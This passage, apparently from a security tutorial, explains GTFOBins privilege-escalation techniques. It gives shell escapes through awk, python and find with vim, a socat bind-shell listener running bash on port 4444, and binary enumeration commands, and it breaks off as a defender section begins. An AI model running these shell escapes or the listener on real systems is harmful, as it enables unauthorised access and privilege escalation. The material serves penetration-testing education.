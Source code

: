 **Command Execution**:
Programs that can execute other programs inherit their privileges:
```bash
# Getting shell through awk:
awk 'BEGIN {system("/bin/bash")}'

# Through python:
python -c 'import os; os.system("/bin/bash")'
```

**Network Capabilities**:
Some programs can make network connections, useful for reverse shells:
```bash
# Netcat-like functionality with socat:
socat TCP-LISTEN:4444,reuseaddr,fork EXEC:bash,pty,stderr,setsid,sigint,sane
```

### The GTFOBins Research Process

**Finding Exploitable Binaries**:
```bash
# What can I execute?
which awk python perl ruby lua node
ls -la /usr/bin | grep rwx

# Cross-reference with GTFOBins website
```

**Testing Techniques**:
1. **Start simple**: Try basic command execution first
2. **Check permissions**: Verify the binary actually works
3. **Understand limitations**: Some techniques work only in specific contexts
4. **Document successes**: Keep track of what works in your environment

### Advanced GTFOBins Techniques

**Chaining Commands**:
Sometimes you need to combine techniques:
```bash
# Use find to execute vim to get shell:
find . -name "*.txt" -exec vim {} \;
# Then within vim: :!/bin/bash
```

**Context-Specific Exploitation**:
- **SUID context**: Focus on privilege-preserving techniques
- **Restricted shell**: Look for shell escape mechanisms
- **Network isolation**: Prioritize local exploitation over reverse shells

---

## Detection and Defense - The Blue Team Perspective

### How Defenders Spot Privilege Escalation
